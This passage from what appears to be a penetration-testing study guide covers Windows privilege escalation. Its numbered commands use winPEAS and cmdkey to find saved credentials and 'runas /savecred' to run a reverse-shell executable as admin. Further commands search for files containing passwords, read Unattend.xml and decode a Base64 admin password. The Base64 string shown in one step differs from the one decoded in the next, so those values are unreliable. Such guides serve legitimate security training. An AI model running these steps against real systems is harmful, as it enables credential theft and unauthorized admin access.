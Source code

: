 ```

1.  Use winPEAS to check for saved credentials:

    ```
    .\winPEASany.exe quiet cmd windowscreds
    ```
2. It may have some credentials for a user that exist.
3.  We can verify this manually using the following command:

    ```
    cmdkey /list
    ```
4.  If the saved credentials aren’t present, run the following script to refresh the credential:

    ```
    C:\Dir\savecred.bat
    ```
5.  We can use the saved credential to run any command as the admin user. Start a listener On your host and run the reverse shell executable:

    ```
    runas /savecred /user:valid_username C:\Users\Public\reverse.exe\
    ```

### Configuration Files

Some administrators will leave configurations files on the system with passwords in them. This may be seen in the Unattend.xml file. It enables Windows systems to be set up in a largely automated manner.

#### Enumerating Configuration Files

Recursively search for files in the current directory with “pass” in the name, or ending in “.config”:

```
dir /s *pass* == *.config
```

Recursively search for files in the current directory that contain the word “password” and also end in either .xml, .ini, or .txt:

```
findstr /si password *.xml *.ini *.txt
```

#### Configuration Files Privilege Escalation Methodology

1.  Use winPEAS to search for common files which may contain credentials:

    ```
    .\winPEASany.exe quiet cmd searchfast filesinfo
    ```
2.  The Unattend.xml file was found. View the contents:

    ```
    type C:\Windows\Panther\Unattend.xml
    ```
3. A password for the admin user was found. The password is Base64 encoded: cGFzc34vcmQxMjM=
4.  On your host we can easily decode this:

    ```
    echo "cGFzc3dvcmxMjM=" | base64 -d
    ```
```